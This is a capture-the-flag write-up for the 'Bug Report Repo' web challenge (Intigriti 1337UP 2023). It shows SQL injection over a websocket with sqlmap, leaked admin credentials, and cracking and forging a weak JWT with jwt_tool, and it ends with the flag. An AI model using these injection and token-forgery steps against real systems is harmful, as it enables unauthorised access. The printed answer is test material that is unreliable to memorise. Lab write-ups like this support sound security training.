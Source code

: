 ```yaml
---
name: Bug Report Repo (2023)
event: Intigriti 1337UP Live CTF 2023
category: Web
description: Writeup for Bug Report Repo (Web) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Bug Report Repo

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/kgndZOkgVxQ/0.jpg)](https://www.youtube.com/watch?v=VX445yn4lQ4 "Websocket SQLi and Weak JWT Signing Key")

## Description

> I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕

## Part 1: Websocket SQLi

-   Players can use burp repeater to tamper with websocket requests, if they set the ID to 11, they will find an extra name `ethical_hacker`
-   If they probe with quotes, they will see errors then quickly find SQLi
    -   `{"id":"1 AND 1=1"}`
    -   `{"id":"1 AND 1=2"}`
-   Using this information, they will see need to dump the hidden row, either by filtering on `id`, `reported_by` or `severity`
-   Players can write a script, but may find [this 2021 writeup from Rayhan](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) to use SQLMap, but the script won't work by default:
    -   They need to change the `ws` protocol to `wss` for remote
    -   The DB is SQLite instead of MySQL, negative values in SQLMap will cause the script to freeze - players will need to add a timeout or logic to skip negative values
-   Launch the middleware script (sqlmap_proxy.py)
-   `sqlmap -u "http://localhost:9999/?id=1" --batch --proxy=http://127.0.0.1:8080 -T bug_reports -C description --where id=11 --dump --threads 10`
-   The hidden bug report is returned, which indicates there's an admin endpoint with weak creds

{% code overflow="wrap" %}
```bash
+--------------------------------------+
| description                          |
+--------------------------------------+
| crypt0:c4tz on /4dm1n_z0n3, really?! |
+--------------------------------------+
```
{% endcode %}

## Part 2: Weak JWT Signing Key

-   Players visit `/4dm1n_z0n3` and login with `crypt0:c4tz`
-   They see a message saying the key is only viewable by the admin
-   Crack the JWT with hashcat/john/jwt_tool etc, finding the key `catsarethebest` (present in rockyou.txt), e.g. jwt_tool takes like 3 secs
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -C -d /usr/share/wordlists/rockyou.txt`
-   Forge JWT as admin, e.g. with jwt_tool
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -S hs256 -p "catsarethebest" -I -pc identity -pv admin`
-   Login with the new cookie, revealing the config key which is the flag!

Flag: `INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}`
